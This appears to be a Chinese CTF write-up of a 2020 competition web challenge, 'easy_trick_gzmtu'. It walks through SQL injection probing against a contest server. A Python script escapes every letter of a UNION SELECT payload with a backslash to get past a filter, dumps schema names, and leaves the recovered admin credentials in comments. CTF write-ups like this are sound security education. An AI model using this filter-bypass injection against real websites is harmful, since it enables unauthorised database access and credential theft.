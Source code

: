 date: 2020-03-10
categories:
- 比赛
tags:
- wp
- ctf
title: xctf高校抗疫
---
# 高校战疫

打完这次比赛,我再次认清了自己是个卑微的递茶小弟...

## web



###  **easy_trick_gzmtu**

```
2020\\%27 200
2020%27 500
2020\%27 500
```

可能作为格式化字符串或者过滤`\` ?,继续测试

```
http://121.37.181.246:6333/?time=2020' or 1%23  =>500
http://121.37.181.246:6333/?time=2020or'%23 =>无结果,说明不是过滤or
http://121.37.181.246:6333/?time=2020'%23or=>没有500,说明or不在黑名单中 

```

```
/?time=2020%27%20||1=1%20--+    返回正确结果
/?time=2020%27%20or1=1%20--+   and   &&都页面报错
/?time=-1%27%20||1=0%20--+   页面的hello world消失，应该存在布尔盲注
```

```
?time=0'||\i\f(\s\l\e\e\p(2),1,1)%23
成功执行,说明是过滤\
```

```python
import requests,re
sql="union select 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata"
#sql="union select 1,GROUP_CONCAT(id,',',username,',',passwd,',',url,','),3 FROM admin"
#admin,content
#admin
#id,username,passwd,url
#0,admin,20200202goodluck,/eGlhb2xldW5n,
tmp=""
for i in sql:
    if i.isalpha():
        tmp+="\\"+i
        #print("\\"+i,end="")
    else:
        tmp+=i
        #print(i,end="")

tmp="http://121.37.181.246:6333/?time=0'+{}%23".format(tmp)
res=requests.get(tmp)
result=re.search(r'<div class="text-c ">(.*)</div>',res.text)
print(result.group(1))
```
